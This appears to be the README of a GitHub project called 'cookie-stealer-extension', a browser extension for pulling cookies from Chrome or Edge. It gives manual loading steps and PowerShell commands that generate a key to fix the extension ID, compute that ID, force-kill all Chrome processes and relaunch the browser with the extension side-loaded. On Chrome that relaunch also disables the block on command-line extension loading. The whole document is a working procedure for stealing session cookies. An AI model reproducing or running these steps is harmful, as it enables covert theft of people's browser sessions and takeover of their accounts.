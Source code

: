 # cookie-stealer-extension

## Manual Cookie Extraction
Update manifest with public key (optional)
1. Go to `chrome://extensions/` or `edge://extensions/`
2. Enable "Developer Mode" 
3. Load the folder with the extension. 
4. View cookies in downloads

## Automated Cookie Extraction

0. Optional: Create Public Key and insert into manifest.json

Helps keep track of the extension ID thats going to be loaded  
```powershell
cd chrome-cookie-stealer-extension

#create a public key for the extension
openssl genrsa -out extension.key 2048
openssl rsa -in extension.key -pubout -outform DER -out extension_public.der
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\path\to\extension_public.der")) > extension_pubkey_b64.txt

# add base64 key to manifest.json
(Get-Content manifest.json.template -Raw) -replace 'UPDATEME', (Get-Content extension_pubkey_b64.txt -Raw) | Set-Content manifest.json
```

Calculate extension ID
```powershell
# Base64-encoded public key
$base64 = Get-Content "extension_pubkey_b64.txt" -Raw

# Decode the Base64 into bytes (DER-encoded public key)
$pubkeyBytes = [Convert]::FromBase64String($base64)

# Compute SHA256 hash
$sha256 = [System.Security.Cryptography.SHA256]::Create()
$hash = $sha256.ComputeHash($pubkeyBytes)

# Use the first 16 bytes (128 bits) and convert each 4-bit nibble to a letter a-p (extension ID uses base16 a-p encoding)
$extensionId = ""
foreach ($b in $hash[0..15]) {
    $hi = ($b -band 0xF0) -shr 4
    $lo = $b -band 0x0F
    $extensionId += [char](97 + $hi) + [char](97 + $lo)
}

"Extension ID: $extensionId"
```

1. Update manifest.json as needed and load custom extension
```powershell
# all insteances of chrome must be stopped for this to work
Get-Process chrome -ErrorAction SilentlyContinue | Stop-Process -Force

start-process chrome.exe -ArgumentList '--load-extension=C:\Path\To\cookie-stealer-extension --disable-features=DisableLoadExtensionCommandLineSwitch https://google.com'
# Note Edge does not require the disabled feature switch
start-process msedge.exe -ArgumentList '--load-extension=C:\Path\To\cookie-stealer-extension https://google.com'

```
